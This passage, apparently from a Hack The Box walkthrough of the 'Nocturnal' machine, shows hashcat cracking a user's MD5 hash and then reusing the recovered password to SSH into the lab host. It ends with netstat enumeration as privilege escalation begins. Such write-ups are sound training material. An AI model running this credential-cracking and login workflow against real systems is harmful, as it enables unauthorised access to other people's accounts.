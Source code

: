 ```bash
Candidates.#1....: $HEX[206b6d3831303838] -> $HEX[042a0337c2a156616d6f732103]

Started: Sun Apr 13 09:56:49 2025
Stopped: Sun Apr 13 09:57:07 2025

hashcat --show hashes.txt -m 0 --username
tobias:55c82b1ccd55ab219b3b109b07d5061d:slowmotionapocalypse
```
 
We found a password!
Let's ssh as `tobias` using his password.
```bash
ssh tobias@nocturnal.htb
The authenticity of host 'nocturnal.htb (10.129.232.131)' can't be established.
ED25519 key fingerprint is SHA256:rpVMGW27qcXKI/SxVXhvpF6Qi8BorsH7RNh1jzi8VYc.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:35: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'nocturnal.htb' (ED25519) to the list of known hosts.
tobias@nocturnal.htb's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-212-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat 12 Apr 2025 11:58:39 PM UTC

  System load:           0.0
  Usage of /:            54.5% of 5.58GB
  Memory usage:          15%
  Swap usage:            0%
  Processes:             230
  Users logged in:       0
  IPv4 address for eth0: 10.129.232.131
  IPv6 address for eth0: dead:beef::250:56ff:feb0:91d


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Sat Apr 12 23:58:40 2025 from 10.10.14.158
tobias@nocturnal:~$
```
We've gotten a user on the box!
# Root
Let's check out ports that are actively listening.
```bash
netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:587           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
```